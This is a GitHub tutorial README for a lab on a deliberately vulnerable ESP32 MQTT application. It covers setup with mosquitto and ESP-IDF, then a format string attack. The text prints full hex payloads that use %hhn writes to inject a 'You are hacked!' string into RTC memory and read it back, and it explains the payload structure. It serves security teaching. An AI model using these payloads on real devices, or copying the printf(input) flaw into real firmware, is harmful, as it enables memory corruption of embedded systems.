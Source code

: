 # ESP32 Remote Attack Tutorial

## Prerequisites

Install ESP-IDF version 4.4

Get VM

Set VM to Bridged Mode, then restart VM if needed.

Connect ESP32 to VM

Install mosquitto

```
sudo apt update && sudo apt install mosquitto mosquitto-clients
```

Confirm mosquitto is installed and running:

```
systemctl status mosquitto
```

```
netstat -tlpn | grep 1883
```

Finally, get the IP address of your VM:

```
ifconfig
```

This will list the network interfaces on your machine. You are interested in the Ethernet interface, typically named something like "eth0" or "ens33". The IP address of the interface is the address next to "inet".

## Build, Flash, and Test Projet

### Configure Project

Run menuconfig

```
idf.py menuconfig
```

Go to Example Configuration. This asks you for the URL of the MQTT broker to connect to. We want to connect to the mosquitto broker running on our VM, so set the value to your IP address. The structure of the field is mqtt://<IP address>. For example, in my case, it is mqtt://192.168.1.186.

Now go to Example Connection Configuration. This asks you to supply your WiFi connection information. Enter your SSID and password. There is no need to change any other settings. You can now exit and save the configuration.

### Build, Flash, and Monitor

Now build, flash, and monitor:

```
idf.py build flash monitor
```

If successful, you will see the ESP32 connect to your WiFi access point and subscribe to 2 MQTT topics: "/topic/qos0" and "/topic/qos1".

### Test Project

Without closing the ESP32 monitor, open a new termianl. In that new terminal, run the following command, which uses mosquitto_pub (a software for publishing MQTT messages) to publish a simple "Hello" message to the topic "/topic/qos0":

```
mosquitto_pub -h 0.0.0.0 -t /topic/qos0 -m "Hello"
```

## Inject Malicious String into Program
  
Now we will see how to inject data (in the form of a string) into a program through a well-known attack called **Format String Attack**. A format string attack can occur when certain functions do not format user input correctly. For example, `printf("%s, input)` is safe, while `printf(input)` is vulnerable to the attack. More details on format string attacks (for x86 architecture) are available here: https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
  
This MQTT application is vulnerable to the format string attack. See line 98 of the main file: https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/86b7400b642051719e6b2161f4da7cff6dcaf6b0/main/app_main.c#L98

  To perform the attack, there are two shell scripts in this project. The first script, `inject_payload.sh`, will inject the string "You are hacked!" into memory address 0x3ff80101. The address range 0x3ff80000 - 0x3ff81fff is reserved for RTC FAST memory, which is memory that persists through the ESP32's deep sleep mode. Since our application does not use deep sleep, this memory region is empty. The second script, `print_payload.sh`, will print the injected string.

  To execute the first script, run the following command in your second terminal:
  
  ```
  sh inject_payload.sh
  ```
  
  This command uses mosquitto_pub to publish the following payload (in binary) to the ESP32:
  
  ```
 0101f83f0201f83f0301f83f0401f83f0501f83f0601f83f0701f83f0801
f83f2001f83f2001f83f0b01f83f0c01f83f0d01f83f0e01f83f0f01f83f
1001f83f2532357825362468686e2532327825372468686e253236327825
382468686e253137317825392468686e25333231782531302468686e2531
37782531312468686e25323433782531322468686e253138377825313324
68686e25333238782531342468686e25323439782531352468686e253235
38782531362468686e2538782531372468686e2532353078253138246868
6e25323535782531392468686e25313839782532302468686e2532323378
2532312468686e0a
  ```
  
  You will see the ESP32 appear to print random memory addresses, like so:
  
  ![image](https://user-images.githubusercontent.com/11084018/164243528-33a45a36-f475-48de-b3e4-a814d7a23289.png)
  
  In reality, this is a side effect of carefully selecting which bytes to inject into memory. It will be explained later.
  
  To execute the second script, run the following command:
  
  ```
  sh print_payload.sh
  ```
  
  This command will use mosquitto_pub to publish the following payload (in binary) to the ESP32:
  
  ```
  0101f83f200d25362473200d0a
  ```
  
  In the ESP32 monitor, you should see the injected string print out to the console:
  
  ![image](https://user-images.githubusercontent.com/11084018/164245035-4f3e36c7-c9dc-4a2f-bf62-eeefe79d9b87.png)
  
  If you do not see the string, then simply run the script again. The RTC FAST region is accessed exclusively by the ESP32's PRO_CPU core, while the normal application is executed by the APP_CPU core. This means that executing `printf` and reading the string happen on different CPU cores, and sometimes the `printf` function will return before the string has been retrieved from memory.

  As a side note, if you are interested in displaying precisely what data is sent to the ESP32, you can convert either payload back to its binary form with the following commands:
  
  ```
  echo <payload> | xxd -p -r
  ```
  
  ![image](https://user-images.githubusercontent.com/11084018/164247098-3ddc4f81-67eb-419e-8ae8-5eb262e5e5b9.png)
  
  ![image](https://user-images.githubusercontent.com/11084018/164247413-8305880f-aa21-44e3-87d0-e59b6b85fdc4.png)


  
  ### Explanation of `inject_payload.sh`
  
  The `inject_payload.sh` script essentially has the following structure:
  
  ```
  <address 1>, i.e., 0x3ff80101
  <address 2>, i.e., 0x3ff80102
  ...
  <address 16>, i.e., 0x3ff80110
  <format string to inject 'Y' into address 1>
  <format string to inject 'o' into address 2>
  <format string to inject 'u' into address 3>
   ...
  <format string to inject '!' into address 15>
  <format string to inject '\0' into address 16>
  ```
  
  By placing the addresses at the beginning of the buffer, the format string attack will actually place those addresses onto the stack. The `<format string to inject...>` lines will reference the stack at different offsets, so by preemptively placing the addresses onto the stack, we can write to them. For example, `%6$hhn` will write data to the first address on the stack, `%7$hhn` will write to the second address, and so forth. There are methods to carefully control which data is written, which will be explained shortly. Now the rest of this section will explain the `inject_payload.sh` script line by line.

  Line 3 sets the mosquitto_pub command prefix, which prepares our script to send a message to the "/topic/qos0" topic:
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L3
  
  Lines 5 - 20 prepare the memory addresses we will need for the attack. We create addresses 0x3ff80101 - 0x3ff80110. Each address will correspond to a byte from our malicious string, including the null terminator. The address bytes are reversed since the ESP32 uses little endian addressing. We will use the format string attack to place these addresses onto the stack.
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L5-L20
  
  Line 23 combines all addresses together into a single variable:
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L23
  
  Lines 25 through 40 write the bytes into the addresses. 
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L25-L40
